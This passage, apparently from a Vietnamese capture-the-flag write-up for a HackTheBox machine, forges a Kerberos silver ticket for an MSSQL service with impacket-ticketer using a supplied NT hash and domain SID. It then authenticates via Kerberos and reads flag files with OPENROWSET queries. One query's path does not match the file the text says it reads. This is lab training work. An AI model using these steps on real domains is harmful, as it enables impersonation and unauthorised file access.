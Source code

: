 ```
nonexistent/DC.SEQUEL.HTB
```

Bây giờ, có thể tạo một ticket cho dịch vụ MSSQL.

```
impacket-ticketer -nthash 1443EC19DA4DAC4FFC953BCA1B57B4CF -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn nonexistent/DC.SEQUEL.HTB Administrator
```

```
Lưu ý rằng để bước này và các bước sau hoạt động bình thường, cần đồng bộ hóa đồng hồ local với đồng hồ của DC bằng cách chạy sudo ntpdate -u dc.sequel.htb .
```

![alt text](image-18.png)

Bây giờ, export ticket và xác thực với dịch vụ bằng xác thực Kerberos.

```
export KRB5CCNAME=Administrator.ccache

impacket-mssqlclient -k dc.sequel.htb
```

![alt text](image-19.png)

Bây giờ, có thể sử dụng các truy vấn sau để đọc `user.txt` cũng như `root.txt`.

```
SELECT * FROM OPENROWSET(BULK N'C:\users\ryan.cooper\desktop\user.txt', SINGLE_CLOB) AS Contents

SELECT * FROM OPENROWSET(BULK N'C:\users\administrator\desktop\user.txt', SINGLE_CLOB) AS Contents
```